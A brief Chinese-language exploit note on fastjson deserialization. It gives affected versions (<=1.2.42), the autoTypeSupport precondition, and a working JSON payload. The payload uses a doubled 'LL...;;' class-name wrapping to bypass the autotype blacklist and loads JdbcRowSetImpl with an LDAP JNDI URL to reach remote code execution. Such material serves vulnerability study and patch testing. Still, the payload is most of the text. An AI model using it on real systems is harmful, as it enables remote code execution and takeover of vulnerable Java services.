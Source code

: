 影响版本：  
- fastjson<=1.2.42

前提：
autoTypeSupport属性为true才能使用。（fastjson>=1.2.25默认为false）

exp：
```
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"ldap://localhost:1399/Exploit", "autoCommit":true}
```


